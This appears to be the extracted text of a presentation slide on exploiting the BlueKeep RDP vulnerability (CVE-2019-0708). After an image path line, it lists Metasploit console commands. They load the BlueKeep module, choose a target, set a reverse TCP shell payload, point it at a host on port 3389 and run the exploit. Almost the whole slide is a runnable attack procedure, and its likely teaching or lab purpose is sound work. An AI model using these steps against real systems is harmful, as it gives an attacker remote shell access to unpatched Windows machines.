

# Bluekeep RDP exploit using metasploit
msf > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf exploit(cve_2019_0708_bluekeep_rce) > show targets
    ...targets...
msf exploit(cve_2019_0708_bluekeep_rce) > set TARGET 0
msf exploit(cve_2019_0708_bluekeep_rce) > set payload windows/x64/shell/reverse_tcp
msf exploit(cve_2019_0708_bluekeep_rce) > show options
    ...show and set options…
msf exploit(cve_2019_0708_bluekeep_rce) > set RHOST 192.168.125.100
msf exploit(cve_2019_0708_bluekeep_rce) > set RPORT 3389
msf exploit(cve_2019_0708_bluekeep_rce) > exploit